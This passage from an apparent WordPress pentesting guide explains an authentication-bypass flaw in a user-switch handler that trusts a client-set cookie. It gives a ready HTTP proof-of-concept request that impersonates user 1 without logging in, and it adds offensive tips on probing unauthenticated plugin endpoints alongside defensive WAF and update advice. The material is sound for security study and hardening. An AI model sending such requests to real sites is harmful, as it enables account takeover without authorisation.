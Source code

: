 ```php
    wp_die('No original user found to switch back to.');
}
```

Why it’s exploitable

- Public `init` hook makes the handler reachable by unauthenticated users (no `is_user_logged_in()` guard).
- Identity is derived from a client-modifiable cookie (`original_user_id`).
- Direct call to `wp_set_auth_cookie($uid)` logs the requester in as that user without any capability/nonce checks.

Exploitation (unauthenticated)

```http
GET /?switch_back=1 HTTP/1.1
Host: victim.example
Cookie: original_user_id=1
User-Agent: PoC
Connection: close
```

---

### WAF considerations for WordPress/plugin CVEs

Generic edge/server WAFs are tuned for broad patterns (SQLi, XSS, LFI). Many high‑impact WordPress/plugin flaws are application-specific logic/auth bugs that look like benign traffic unless the engine understands WordPress routes and plugin semantics.

Offensive notes

- Target plugin-specific endpoints with clean payloads: `admin-ajax.php?action=...`, `wp-json/<namespace>/<route>`, custom file handlers, shortcodes.
- Exercise unauth paths first (AJAX `nopriv`, REST with permissive `permission_callback`, public shortcodes). Default payloads often succeed without obfuscation.
- Typical high-impact cases: privilege escalation (broken access control), arbitrary file upload/download, LFI, open redirect.

Defensive notes

- Don’t rely on generic WAF signatures to protect plugin CVEs. Implement application-layer, vulnerability-specific virtual patches or update quickly.
- Prefer positive-security checks in code (capabilities, nonces, strict input validation) over negative regex filters.

## WordPress Protection

### Regular Updates

Make sure WordPress, plugins, and themes are up to date. Also confirm that automated updating is enabled in wp-config.php:

```bash
define( 'WP_AUTO_UPDATE_CORE', true );
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```
